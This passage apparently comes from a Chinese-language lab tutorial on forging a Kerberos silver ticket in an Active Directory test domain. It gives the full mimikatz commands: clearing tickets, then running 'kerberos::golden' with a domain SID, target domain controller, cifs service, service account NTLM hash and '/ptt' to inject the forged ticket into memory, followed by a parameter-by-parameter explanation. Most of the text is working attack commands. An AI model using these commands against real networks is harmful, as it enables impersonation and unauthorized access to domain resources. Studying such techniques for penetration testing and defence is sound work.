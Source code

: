 目标机器的FQDN

```
net time /domain   
就是hostname+域名 
/target:DC.hacke.testlab
```

回到域内低权限的账号

先使用mimikatz清空票据

```
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

再导入伪造的票据,具体伪造票据的命令

```
kerberos::golden /domain:hacke.testlab /sid:S-1-5-21-954094320-202977030-1482179831 /target:DC.hacke.testlab /service:cifs /rc4:2c7f354c971b062e1e42f12a30709a7f /user:aaa /ptt
```

```
/domain:域名 
/sid:填sid 
/target:完整的域控名 （这里其实就是hostname+域名）
/service:cifs 
/rc4:服务账号NTMLHASH 
/user:伪造用户名
/ptt：注入内存
```

![image-20230226193945942](images/9.png)
